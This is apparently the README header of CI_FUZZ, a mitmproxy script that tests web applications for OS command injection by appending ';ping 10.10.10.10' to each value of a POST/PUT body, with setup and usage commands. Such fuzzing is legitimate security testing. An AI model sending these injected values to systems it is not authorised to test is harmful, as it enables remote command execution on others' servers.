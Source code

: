CI_FUZZ     v.2017-Dec-24

   _____ _____    ______
  / ____|_   _|  |  ____|
 | |      | |    | |__ _   _ ________
 | |      | |    |  __| | | |_  /_  /
 | |____ _| |_   | |  | |_| |/ / / /
  \_____|_____|  |_|   \__,_/___/___|



Description:

        This script fuzz's for Command Injection vulnerabilities resulting in remote command execution.
        Similiar OWASP vulnerablities are explained here --> https://www.owasp.org/index.php/Command_Injection
        The script will attempt to execute OS commands by injecting into every value in the body of a POST/PUT.
        Detecting execution requires another tool such as listening for web/icmp traffic or watching a directory on the target OS, etc.

        For example, if the script observes a user has performed a single POST with body set to {"webfunction": "settime", "hour": "10", "minute": "00"}
        The script will generate 5 POST's
        1)The original POST (as is)
                {"webfunction": "settime", "hour": "10", "minute": "00"}
        2)CI injection on 1st value
                {"webfunction": "settime;ping 10.10.10.10", "hour": "10", "minute": "00"}
        3)CI injection on the 2nd value
                 {"webfunction": "settime", "hour": "10;ping 10.10.10.10", "minute": "00"}
        4)CI injection on the 3rd value
                {"webfunction": "settime", "hour": "10", "minute": "00;ping 10.10.10.10"}
        5)A cleanup POST to return variables to the original value
                {"webfunction": "settime", "hour": "10", "minute": "00"}

        If the payload was executed, the attacker would recieve an icmp ping packet. In this example, the web application is vulnerable to command injection/execution via setting the system time.


Prerequisites:

        -mitmproxy 3.0.0+

                #"Virtualenv" method to run mitmproxy 3.0.0+ (ie: your distribution does not support 3.0.0+ binaries)
                git clone https://github.com/mitmproxy/mitmproxy.git

                #Follow the "Development setup" here -> https://github.com/mitmproxy/mitmproxy (simliar to below)
                apt-get install python3-venv
                cd mitmproxy
                ./dev.sh

                #Confirm mitmproxy version 3.0.0+
                . venv/bin/activate
                (venv) root@kali:/usr/local/src/source-install/mitmproxy3# mitmproxy --version
                        Mitmproxy version: 3.0.0 (2.0.0dev0920-0x3c934b1a)
                        Python version: 3.5.4


Installation:

        #Download ci_fuzz.py
        git clone https://github.com/mvdevnull/ci_fuzz.git


Usage Examples:

        *Set variables in the configuration section below
                Change payload
                Change any other variables in Configuration Section
        *Optional - Import ~/.mitmproxy/mitmproxy-ca-cert.p12 Certificate into browser

        1)*Run mitmweb using the ci_fuzz.py script listening on localhost port 7777
                mitmweb --listen-port 7777 --ssl-insecure -s ./ci_fuzz/ci_fuzz.py

        2)*Run mitmweb using the ci_fuzz.py script same as above and upstream forward to a GUI proxy like Burp on localhost
                mitmweb --listen-port 7777 --ssl-insecure --mode upstream:https://127.0.0.1:8080 -s ./ci_fuzz/ci_fuzz.py
